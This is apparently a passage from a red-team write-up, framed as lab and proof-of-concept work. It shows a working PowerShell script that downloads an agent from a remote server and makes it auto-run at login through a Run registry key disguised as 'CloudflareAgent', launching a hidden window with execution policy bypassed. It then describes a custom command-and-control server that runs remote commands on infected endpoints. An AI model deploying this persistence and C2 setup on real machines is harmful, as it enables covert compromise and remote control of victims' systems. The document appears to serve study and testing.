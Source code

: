 This ensures the `agent.ps1`  auto-runs at login:

```powershell
# Path to persist payload (could be your agent, or a loader for it)
$payloadPath = "$env:USERPROFILE\Desktop\agent.ps1"

# Download the agent (or small loader)
Invoke-WebRequest -Uri "https://server.amtzespinosa.com/payloads/agent.ps1" -OutFile $payloadPath

# Add Registry Key to persist
$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$regName = "CloudflareAgent"
$regValue = "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$payloadPath`""

Set-ItemProperty -Path $regPath -Name $regName -Value $regValue
```

Uses:

-   `HKCU` (user-level, no admin needed)
-   Silently hidden PowerShell window
-   Fully fileless path support

Could also evolve to:

-   Scheduled tasks
-   COM hijack
-   WMI events

These are just simple but working payloads that can be improved as much as the attacker wants but they are just fine for testing purposes.

## C2 design and connection
The C2 used in this demonstration is a **custom lightweight controller** built with:
-   **Java (Jakarta)** for backend logic
-   **MySQL** for data storage running on Docker

### Agent Communication

-   Agents connect via raw **TCP** to a specified port.
-   Upon connection, the agent sends basic system telemetry (hostname, user, IP, OS).
-   The C2 dashboard visualizes all active agents and allows operators to **send remote commands**, which are executed on the endpoint and returned over the same TCP stream.

### Operator Capabilities

-   Live session tracking per agent
-   Command interface
-   Logging for command input/output
-   Basic agent info for triage and targeting

This setup avoids the complexity of full-featured frameworks like Cobalt Strike, making it **perfect for lab usage or PoC work**, while still being realistic enough to simulate adversary tradecraft.

All files (payloads and C2) are available on my Github: [https://github.com/amtzespinosa/click-to-compromise](https://github.com/amtzespinosa/click-to-compromise)
